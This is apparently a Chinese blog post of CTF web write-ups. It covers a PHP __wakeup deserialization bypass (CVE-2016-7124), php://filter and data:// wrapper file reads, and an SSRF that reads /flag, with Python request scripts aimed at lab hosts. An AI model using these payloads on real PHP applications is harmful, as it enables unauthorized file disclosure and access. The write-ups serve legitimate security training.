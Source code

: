 ```yaml
---
title: Web做题1
date: 2023-12-03 21:09:13
tags: Web
mathjax: true
---
```


# Web做题1

## [SWPUCTF 2021 新生赛]no_wakeup

反序列化时触发`__wakeup`函数，考虑绕开。

```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus); //O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

CVE-2016-7124：当参数列表中成员个数与实际不符时绕过`__wakeup`函数，构造：

```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

payload：

```python
import requests
response=requests.get('http://node4.anna.nssctf.cn:28398/class.php?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}')
print(response.text[-44:])
```

## [LitCTF 2023]我Flag呢？

略。

## [SWPUCTF 2021 新生赛]PseudoProtocols

hint.php读取方法：

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

以文件形式读取：

```
?a=data://text/plain,I want flag
```

exp:

```python
import requests,base64
response1=requests.get('http://node4.anna.nssctf.cn:28518/index.php?wllm=php://filter/read=convert.base64-encode/resource=hint.php')
tmp1=response1.text[-56:]
tmp2=base64.b64decode(tmp1.encode())
# print(tmp2)

response2=requests.get('http://node4.anna.nssctf.cn:28518/test2222222222222.php?a=data://text/plain,I want flag')
print(response2.text[-44:])
```

## [NISACTF 2022]easyssrf

SSRF，尝试访问：

```
file:///flag
```

访问：

```
file:///fl4g
```

访问：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php
```

php伪协议：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php?file=php://filter/read=convert.base64-encode/resource=/flag
```

